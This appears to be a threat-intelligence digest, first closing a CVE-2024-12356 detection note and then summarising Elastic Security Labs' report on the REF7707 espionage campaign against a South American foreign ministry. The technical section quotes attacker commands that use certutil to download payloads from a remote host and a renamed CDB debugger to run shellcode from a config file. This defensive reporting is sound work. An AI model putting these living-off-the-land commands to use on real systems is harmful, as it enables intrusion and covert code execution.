 No IOCs are explicitly listed, but the following can be used for detection:

*   Exploitation attempts may leave traces in the `thin-scc-wrapper.log` file.
*   Look for invalid UTF-8 sequences in the logs, especially those containing the `0x27` byte.

**Original link:** https://attackerkb.com/topics/G5s8ZWAbYH/cve-2024-12356

## From South America to Southeast Asia: The Fragile Web of REF7707
### Summary
Elastic Security Labs has been monitoring the **REF7707 campaign**, which targeted a **South American nation's foreign ministry** and has links to compromises in **Southeast Asia**. The campaign uses a novel intrusion set with malware families named **FINALDRAFT, GUIDLOADER, and PATHLOADER**. While the campaign exhibits technical competence, it also shows poor campaign management and inconsistent security practices. The attackers made heavy use of **cloud and third-party services** for command and control (C2).

### Technical Details
![alt text](<images/The Feed 2025-02-19_3.png>)
*   **Initial Access**: The REF7707 campaign was identified through endpoint behavioral alerts at the Foreign Ministry of a South American country. The attackers used a common **LOLBin tactic** involving Microsoft's `certutil` application to download files from a remote server.
    *   Example commands:
        *   `certutil -urlcache -split -f https://[redacted]/fontdrvhost.exe C:\ProgramData\fontdrvhost.exe`
        *   `certutil -urlcache -split -f https://[redacted]/fontdrvhost.rar C:\ProgramData\fontdrvhost.rar`
        *   `certutil -urlcache -split -f https://[redacted]/config.ini C:\ProgramData\config.ini`
        *   `certutil -urlcache -split -f https://[redacted]/wmsetup.log C:\ProgramData\wmsetup.log`
*   **Lateral Movement**: Windows Remote Management’s Remote Shell plugin (`WinrsHost.exe`) was used to download files, indicating the attackers had valid network credentials. The downloaded files included `fontdrvhost.exe` (a renamed version of the Windows debugger `CDB.exe`), `config.ini` (a weaponized INI file), and `wmsetup.log`.
*   **Execution**: The attackers executed `fontdrvhost.exe` to run malicious shellcode delivered in the `config.ini` file.
    *   Command: `C:\ProgramData\fontdrvhost.exe -cf C:\ProgramData\config.ini -o C:\ProgramData\fontdrvhost.exe`
